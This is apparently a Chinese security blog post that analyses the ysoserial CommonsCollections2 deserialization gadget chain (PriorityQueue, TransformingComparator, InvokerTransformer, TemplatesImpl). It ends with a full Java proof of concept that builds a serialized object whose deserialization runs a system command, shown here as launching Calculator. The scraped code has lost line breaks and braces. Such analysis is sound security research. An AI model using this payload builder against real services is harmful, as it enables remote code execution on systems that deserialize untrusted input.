

这篇文章分析的是CommonsCollections2，与之前不同的是，它是在commonscollections4.0版本下的利用链。与CommonsCollections3一样的是，它也是利用TemplatesImpl对象来执行任意命令的。接下来就来具体分析分析它。
前面已经分析过的文章
ysoserial分析之CommonsCollections1 ysoserial分析之CommonsCollections3
与CommonsCollections3一样的是，它也是利用TemplatesImpl来进行最终的命令执行(commons-collections:4.0版本下的利用链利用的都是TemplatesImpl) 。不同的是它用到了一个新类PriorityQueue来触发transform函数。PriorityQueue类。这个类有什么作用呢？让我们来分析分析。
整个反序列化利用链如下所示:
1 2 3 4 5 6 7 8 ObjectInputStream.readObject() ->PriorityQueue.readObject() ->PriorityQueue.heapify() ->PriorityQueue.siftDown() ->PriorityQueue.siftDownUsingComparator() ->TransformingComparator.compare() ->InvokerTransformer.transform() ->TemplatesImpl.newTransform()
利用链分析 首先在反序列化的过程中所需要用的类必须实现了Serilizable类。PriorityQueue也不例外。观察它的readObject类。
前面的几行都是普通的反序列化函数，让我们直接看看heapify。
heapify函数连直接调用了siftDown，跟进siftDown。
若comparator不为空，则进入了SiftDownUsingComparator函数，跟进它。
在SiftDownUsingComparator函数中，继续跟进comparator.compare函数。此时进入的是TransformingComparator的compare函数，如下所示
在这里就看到了熟悉的this.transformer.transform()。在CommonsCollections2中利用的是InvokerTransformer的反射机制来调用newTransformer函数，从而进入利用TemplatesImpl对象的RCE。除了InvokerTransformer外，CommonsCollection3中的InstantiateTransformer触发TrAXFilter初始化也能达到同样的效果，不过这是CommonsCollections4使用的方法。
构造payload 根据上面的分析可以得知，需要指定PriorityQueue类的comparator变量为TransformingComparator类，而TransformingComparator类中的Transformer需要是InvokerTransformer。很容易写出如下的payload
1 2 InvokerTransformer transformer = new InvokerTransformer("newTransformer" ,new Class[0 ],new Object[0 ]); TransformingComparator transcomparator = new TransformingComparator(transformer);
newTransformer函数的主体是TemplatesImpl对象，因此传入this.transformer.transform(obj)中的obj是一个TemplatesImpl对象。而该对象是PriorityQueue类的queue成员变量。因此，需要实例化一个PriorityQueue类，其成员变量comparator是一个TransformingComparator对象，成员变量queue是一个TemplatesImpl对象。
可以看到在PriorityQueue类中，queue这个成员变量被transient关键字修饰，是不能被序列化的。但是在PriorityQueue类的writeObject方法中，首先调用了ObjectOutputStream中的defaultWriteObject方法，该方法会执行默认的序列化机制，在进行序列化时，会先忽略掉被transient修饰的queue字段。然后调用了writeObject方法显示地将queue字段写入到ObjectOutputStream中。

查看PriorityQueue类的构造函数，需要两个参数，需要注意的是initCapacity在其注释中有说明需要1.5的Capacity，因此在初始化时将其设为2。初始化的代码如下：
1 2 3 4 PriorityQueue priorityQueue = new PriorityQueue(2 ,transcomparator); priorityQueue.add(1 ); priorityQueue.add(1 );
然后queue里面的值为TemplatesImpl对象，使用CommonsCollections3中的构造方法，然后对Priority类中的queue成员进行设置。
1 2 3 4 5 Object[] queue = {templates,1 }; Field field6 = priorityQueue.getClass().getDeclaredField("queue" ); field6.setAccessible(true ); field6.set(priorityQueue,queue);
ysoserial中实例化InvokerTransformer类时，它首先调用的toString方法，然后才将其换成newTransformer方法。这是因为在前面priorityQueue.add(1)也会调用到InvokerTransformer，这时候Integrity对象1并没有newTransformer方法会报错。
完整demo 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 import com.sun.org.apache.xalan.internal.xsltc.DOM;import com.sun.org.apache.xalan.internal.xsltc.TransletException;import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;import com.sun.org.apache.xml.internal.serializer.SerializationHandler;import javassist.ClassClassPath;import javassist.ClassPool;import javassist.CtClass;import org.apache.commons.collections4.comparators.TransformingComparator;import org.apache.commons.collections4.functors.InvokerTransformer;import java.io.*;import java.lang.reflect.*;import java.util.PriorityQueue;public class test public static class StubTransletPayload extends AbstractTranslet implements Serializable private static final long serialVersionUID = -5971610431559700674L ; public void transform (DOM document, SerializationHandler[] handlers) throws TransletException @Override public void transform (DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException } public static class Foo implements Serializable private static final long serialVersionUID = 8207363842866235160L ; } public static void main (String[] args) throws Exception String command = "/Applications/Calculator.app/Contents/MacOS/Calculator" ; String cmd = "java.lang.Runtime.getRuntime().exec(\"" + command.replaceAll("\\\\" ,"\\\\\\\\" ).replaceAll("\"" , "\\\"" ) + "\");" ; Object templates = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl" ).newInstance(); ClassPool pool = ClassPool.getDefault(); pool.insertClassPath(new ClassClassPath(StubTransletPayload.class )) ; pool.insertClassPath(new ClassClassPath(AbstractTranslet.class )) ; CtClass clazz = pool.get(StubTransletPayload.class .getName ()) ; clazz.makeClassInitializer().insertAfter(cmd); CtClass superC = pool.get(AbstractTranslet.class .getName ()) ; clazz.setSuperclass(superC); byte [] classBytes = clazz.toBytecode(); Field field = templates.getClass().getDeclaredField("_bytecodes" ); field.setAccessible(true ); field.set(templates,new byte [][]{classBytes,classFiles.classAsBytes(Foo.class )}) ; Field field2 = templates.getClass().getDeclaredField("_name" ); field2.setAccessible(true ); field2.set(templates,"ananaskr12345" ); Field field3 = templates.getClass().getDeclaredField("_tfactory" ); field3.setAccessible(true ); field3.set(templates, TransformerFactoryImpl.class .newInstance ()) ; InvokerTransformer transformer = new InvokerTransformer("toString" ,new Class[0 ],new Object[0 ]); TransformingComparator transcomparator = new TransformingComparator(transformer); PriorityQueue priorityQueue = new PriorityQueue(2 ,transcomparator); priorityQueue.add(1 ); priorityQueue.add(1 ); Object[] queue = {templates,1 }; Field field5 = transformer.getClass().getDeclaredField("iMethodName" ); field5.setAccessible(true ); field5.set(transformer, "newTransformer" ); Field field6 = priorityQueue.getClass().getDeclaredField("queue" ); field6.setAccessible(true ); field6.set(priorityQueue,queue); ByteArrayOutputStream baos = new ByteArrayOutputStream(); ObjectOutputStream out = new ObjectOutputStream(baos); out.writeObject(priorityQueue); out.flush(); out.close(); byte [] bytes = baos.toByteArray(); ByteArrayInputStream bais = new ByteArrayInputStream(bytes); ObjectInputStream in = new ObjectInputStream(bais); in.readObject(); in.close(); } }
再加上ysoserial中的classFiles.java。运行结果如下:
参考